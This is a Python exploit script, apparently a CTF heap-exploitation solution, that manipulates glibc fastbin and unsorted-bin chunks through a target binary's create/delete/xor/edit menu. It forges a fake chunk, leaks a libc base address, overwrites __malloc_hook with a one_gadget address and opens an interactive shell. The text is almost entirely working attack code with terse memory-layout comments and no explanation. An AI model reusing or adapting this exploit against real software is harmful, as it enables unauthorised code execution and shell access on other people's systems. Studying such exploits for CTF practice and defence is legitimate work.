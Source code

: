 ```python
	create(i, "A", 0x20, "P")
for i in xrange(2,5):
	delete(i)
#prepare many 0x20 fastbin chunks
#so that 0x70 will be adjacent

for i in xrange(2,21):
	if i != 9:
		create(i, str(i), 0x70, "P" * 0x10)
	else:#fake a chunk here, for unsorted bin
		create(i, "9" * 0x10 + p64(0) + p64(0x61), 0x70, "P" * 0x10)
create(21, "A", 0x20, "P" * 0x10)
delete(21)
delete(1)

# topchunk size = 0x20171
# 0x30: 0x5555557570b0 -> 0x555555757e30 -> 0x555555757e60 -> 0x0
# 0x40: 0x5555557570e0 -> 0x0

create(1, "A", 0x20, "P")
create(21, "A", 0x30, "P" * 0x10)

xor(21, 0x02)
xor(21, 0x02)
#topchunk size = 0x171

for i in xrange(2,6):
	delete(i)
#delete some 0x70+0x30 fastbins

for i in xrange(2,6):
	create(i, "A", 0x60, "P")
delete(2)
delete(3)
create(2, "consume 0x30", 0x20, "A")
#0x191 unsorted bin
#2 0x70 fastbin

create(22, "leak", 0x60, "P" * 0x10)
#0x161 unsorted bin
xor(22, 1 ^ 3)
#0x363 unsorted bin

create(23, "consume", 0x70, "0xb0")
create(24, "consume", 0x70, "0xb0")

libc_addr = u64(show(1)[1] + "\x00\x00") - 0x3c4b78
print hex(libc_addr)

create(25, "consume", 0x70, "0xb0")

create(26, "A" * 0x18 + p64(0x31) + p64(2019) + p64(libc_addr + 0x3c4b50) + p64(0), 0x70, "overlap")

edit(2019, p64(libc_addr + e.symbols["__malloc_hook"] - 3 - 0x20)[:6])

create(27, "A" * 0x13 + p64(libc_addr + 0xf02a4), 0x60, "edit")
sh.send("1\n")
sh.interactive()
```
